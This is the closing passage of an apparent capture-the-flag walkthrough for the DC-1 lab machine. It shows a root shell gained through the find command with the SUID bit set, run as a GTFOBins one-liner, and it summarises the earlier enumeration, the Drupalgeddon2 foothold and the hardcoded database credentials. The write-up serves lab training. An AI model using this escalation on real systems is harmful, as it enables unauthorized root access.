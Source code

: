 The testuser listed in the table is one that I added on the website to see if there was anything I could do there.

<br>

## Root

We run the command from GTFOBins and get root:

```
www-data@DC-1:/tmp$ /usr/bin/find . -exec /bin/sh \; -quit
# whoami
root
```

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/dc-12.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding **Drupal 7** installed on the system and using the **Drupalgeddon2** (CVE-2018-7600) exploit for an initial foothold
- Gaining access to the **MySQL database** after finding hard coded credentials in a settings file
- Using a **SUID bit** set on the **find** command to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
